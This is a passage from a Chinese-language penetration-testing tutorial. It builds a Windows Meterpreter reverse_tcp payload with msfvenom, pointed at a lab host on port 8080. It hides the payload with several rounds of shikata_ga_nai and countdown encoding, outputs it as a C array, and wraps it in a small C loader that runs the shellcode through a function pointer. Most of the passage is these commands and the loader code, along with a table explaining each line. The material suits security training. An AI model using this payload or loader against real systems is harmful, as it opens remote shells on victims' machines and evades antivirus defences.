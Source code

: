 首先，我们将使用 MSFvenom 创建一个 shellcode 文件。让我们使用之前创建的相同 shellcode，但是这次我们将其输出到一个`.C`文件中：

1.  从终端窗口，使用`mkdir msfv-shellcode`命令创建一个新目录。

1.  使用`cd msfv-shellcode`命令导航到目录。

1.  现在，使用以下命令创建有效载荷：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.34.153 LPORT=8080 -f raw -e x86/shikata_ga_nai -i 15  | \
msfvenom -a x86 --platform windows -e x86/countdown -i 9  -f raw | \
msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f c -o MSFV-shellcode.c
```

执行了上述命令后，MSFvenom 将创建 shellcode 文件。

现在，我们需要添加一些变量，以便使用 C 编程语言进行编译。使用文本编辑器或 nano 编辑刚刚创建的`MSFV-shellcode.c`文件。

添加以下行，用**标记：

```
#include<stdio.h>
#include<string.h>

unsigned char buf[] = 
"\xbd\xa1\xe2\xe6\x8b\xd9\xeb\xd9\x74\x24\xf4\x5f\x2b\xc9\x66"
"\xb9\x1b\x01\x83\xef\xfc\x31\x6f\x12\x03\x6f\x12\x43\x17\x5c"
"\x54\x5a\x66\x22\xb1\x95\x4e\x51\x62\xd1\x2e\xa9\xa3\x7f\x68"
"\xd9\x32\xfc\x65\x1e\x05\x55\x6b\xdc\x31\x97\xb0\xa9\x85\xdb"
--snip--

int main ()
{
 printf("Shellcode Length: %d\n", strlen(buf));
 int (*ret)() = (int(*)())buf;

 ret();
}
```

在上述代码中，我剪切了 shellcode，以便可见所需的代码行。在您的 shellcode 文件中，`unsigned char buf [] =`行下面将有更多字符。

在上述代码中，我们添加了以下组件：

| `#include<stdio.h>` | 在这里，我们调用一个库，该库涉及输入和输出函数。 |
| --- | --- |
| `#include<string.h>` | 在这里，我们调用一个库来操作字符串，因为我们使用`strlen`函数来获取字符串长度。 |
| `int main` | 此字符串用于声明一个函数。在 C 编程语言中，`main`下的函数是程序加载时运行的函数。 |
| `printf("Shellcode Length: %d\n` | 此行用于发送打印输出并掩盖 shellcode 长度。 |

| `int (*ret)() = (int(*)())buf;`

`ret ()` | `int (*ret)()`用于声明一个指针，而`=(int(*)())buf;`是将要使用的指针。`ret()`调用该指针，然后指向运行的 shellcode。 |
